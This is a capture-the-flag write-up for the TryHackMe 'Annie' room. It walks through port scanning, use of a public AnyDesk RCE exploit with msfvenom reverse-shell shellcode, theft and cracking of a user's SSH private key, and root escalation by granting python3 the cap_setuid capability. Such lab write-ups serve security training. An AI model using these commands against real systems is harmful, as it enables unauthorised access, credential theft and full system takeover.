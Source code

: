 https://tryhackme.com/room/annie

  ![image](https://user-images.githubusercontent.com/87700008/205995673-6be11335-a570-4cf0-9b72-a8829cf14cff.png)

#### Difficulty : Medium

## **Initital Recon**:

Started with the quick rustscan, found 3 open ports :

    sudo rustscan -a 10.10.30.155 -- -sC -sV -T4 -vv -oN Annie_nmap
    Open 10.10.30.155:22
    Open 10.10.30.155:7070
    Open 10.10.30.155:33017
![image](https://user-images.githubusercontent.com/87700008/205996318-4065c13e-0675-48ef-85c8-c074b4befe3f.png)
![image](https://user-images.githubusercontent.com/87700008/205996442-54c654cf-20ec-488a-a3ba-215633d23693.png)

At the scan results I observed that there is AnyDesk client running on port **7070**. By looking at this I got some hint that tthis might be the point of initial access.

#### **Exploitation:**

I quckly searched for google with the AnyDesk 7070 exploit & got the results :
![image](https://user-images.githubusercontent.com/87700008/205997368-4f027e59-6d5b-42d1-841a-2b37990482e7.png)

Since, I don't have any version info I went with the first search result provied by exploit DB for version 5.5.2, ref : https://www.exploit-db.com/exploits/49613

This gave us the python exploit with Remote code execution : 
![image](https://user-images.githubusercontent.com/87700008/205998084-230664ca-cab9-4e28-b917-25c89e30c33b.png)

As per the exploit, we have to create our own shell code with msfvenom, so I created my own:

    msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.y.y LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
    
![image](https://user-images.githubusercontent.com/87700008/205999004-79da675d-5d3f-497d-a37f-943f488e95ff.png)

After many trial & error after many port lport change & many room reset, I finally received my connection on port 7070, on which AnyDesk is running.

![image](https://user-images.githubusercontent.com/87700008/207115160-8c796a68-db9d-4ded-9dd4-9b2e282a9bf8.png)

I received the connection as user "Annie":(pwn3d!🙂)
![image](https://user-images.githubusercontent.com/87700008/207115401-b8c97a4a-562b-4eab-bd57-902764e41393.png)

Now, it's time to upgrade & stablize the shell:

    python3 -c 'import pty;pty.spawn("/bin/bash")'
    export TERM=xterm
    stty raw -echo; fg (and press enter)

![image](https://user-images.githubusercontent.com/87700008/207116033-69dc62fb-4ff1-473b-866a-4c10ae6dc89c.png)

##### **User.txt**:

And, I got user flag into the home directory of the Annie itself.
![image](https://user-images.githubusercontent.com/87700008/207116581-e5d7d03c-4311-4300-91a4-30791fca00b0.png)

In the Annie's folder I found a folder name ".ssh" where annie's private key is saved in 'id_rsa', so I copied it to my machine & tried to SSH but failed as it's asking for passphrase.

![image](https://user-images.githubusercontent.com/87700008/207118225-6713da94-d6f1-4d46-994a-27b9c7c76c49.png)

So, I quickly used a John the ripper module "ssh2john" to convert the id_rsa file into John the ripper format & tried to crack it. And in few seconds I was able to crack it as well.
![image](https://user-images.githubusercontent.com/87700008/207118733-cd5e382a-38b9-463d-9b78-a34d61000487.png)


#### **Priv Esc:**

I started with manual enumeration, like checking sudo version, cron jobs, sudo permissions etc. But I found something unusual in SUID list that there is something called "/sbin/setcap"

    find / -perm -4000 -type f 2>/dev/null

![image](https://user-images.githubusercontent.com/87700008/207129417-22261939-7b7a-40c4-adda-8c28233965ff.png)

I quckly searched for "setcap priv esc" & landed onto this page : https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

As per the blog if have the permission of setting the capablities then we can change the capablities of python3(as expample) & get the root privleges.

![image](https://user-images.githubusercontent.com/87700008/207131042-22274936-bf6f-4397-8b5b-a254ed1dfde6.png)

So, for the Priv Esc I followed the blog & copied the python3 binary in /tmp folder:

    cp /usr/bin/python3 /tmp
    
Then changed the capablities of that python3 file:

    setcap cap_setuid+ep /tmp/python3
    
And run the Python3 to set my uid as 0 & execute bash shell:

    ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
    
This gave me the root privleges:(pwn3d!🙂)

![image](https://user-images.githubusercontent.com/87700008/207131735-9dcdb730-d448-41d3-b60c-145bdc8516b5.png)

#### **Root.txt**

After successfull execution I got the root flag in root folder.

![image](https://user-images.githubusercontent.com/87700008/207131957-673acab3-0976-4370-ab29-4973f18b2abc.png)
